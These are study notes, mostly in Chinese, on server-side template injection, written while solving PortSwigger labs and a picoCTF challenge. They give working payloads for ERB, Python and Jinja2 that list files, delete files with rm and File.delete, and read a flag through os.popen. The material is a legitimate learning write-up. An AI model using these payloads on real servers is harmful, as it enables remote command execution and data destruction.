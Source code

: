 # Server-Side Template Injection

https://portswigger.net/web-security/server-side-template-injection/exploiting

對 Twig, FreeMarker 等框架做 injection

## 機制
```php
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```
注入
```
custom_email={{7*7}}

49
```
### 步驟
1. 檢查 SSTI: 注入 `{{5*2}}` 看會不會回傳 `10`
2. 檢查框架
  - {{7*'7'}} would result in 49 in Twig --> php
  - {{7*'7'}} would result in 7777777 in Jinja2 --> python
3. 找框架的 security section，可能會寫不可以...，可以把這個文件當 cheat sheet 用

## Demo
### Lab1
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic <br>
測試一下，可以發現 message 可以被注入 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=7*7%%3E <br>
> 49

之後就開找檔案 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20system(%22ls%22)%20%%3E <br>
> morale.txt true

之後達成條件：刪除 morale.txt <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20File.delete("morale.txt")%20%%3E <br>
> Lab success

### Lab2
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context<br>
記得用 lab 需求的帳密登入，一開始沒看到戳超久QQ <br>
進入後，可以發現 Preferred name 送出封包為 user.name()，看起來有 SSTI，於是就簡單測了一下
```
blog-post-author-display=7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
>![](webSSTILab2Recc.png)
> 7*7 -> 49

```
blog-post-author-display='7'*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm


blog-post-author-display='7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
>![](webSSTILab2Recc2.png)
>![](webSSTILab2Recc3.png)
>可以發現是 python 後端

之後嘗試用
```
blog-post-author-display=dir(__builtins__)&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
> ![](webSSTILab2FindPacketage.png)


單純使用 system('ls') 會遇到 os not defind，所以要加上 `__import__('os')`
```
blog-post-author-display=__import__('os').system('ls')&csrf=2N6vi7b7I2kOpVuWutfwq1WwPMhusd6U
```

```
blog-post-author-display=__import__('os').system('rm morale.txt')&csrf=2N6vi7b7I2kOpVuWutfwq1WwPMhusd6U
```

### Lab3
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation <br>

發現 edit 功能輸入 `${7*7}` 可以成功變成 49，injection 成功<br>
injection 成功後，就開始想辦法找框架，嘗試輸入 `version` 發現有成功噴出 exception

>FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> version [in template "freemarker" at line 10, column 18] ---- Tip: If the failing expression is known to legally refer to something that's sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use <#if myOptionalVar??>when-present<#else>when-missing</#if>. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)?? ---- ---- FTL stack trace ("~" means nesting-related): - Failed at: ${version} [in template "freemarker" at line 10, column 16] ---- Java stack trace (for programmers): ---- freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...] at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134) at freemarker.core.EvalUtil.coerceModelToTextualCommon(EvalUtil.java:479) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:401) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:370) at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100) at freemarker.core.DollarVariable.accept(DollarVariable.java:63) at freemarker.core.Environment.visit(Environment.java:331) at freemarker.core.Environment.visit(Environment.java:337) at freemarker.core.Environment.process(Environment.java:310) at freemarker.template.Template.process(Template.java:383) at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:58) at lab.actions.templateengines.FreeMarker.act(FreeMarker.java:42) at lab.actions.common.Action.act(Action.java:57) at lab.actions.common.Action.run(Action.java:39) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23)

框架：FreeMarker

https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new <br>
https://freemarker.apache.org/docs/pgui_datamodel_method.html#pgui_datamodel_method<br>



### picoCTF SSTI1
payload
```twig
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

result
```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```
payload
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

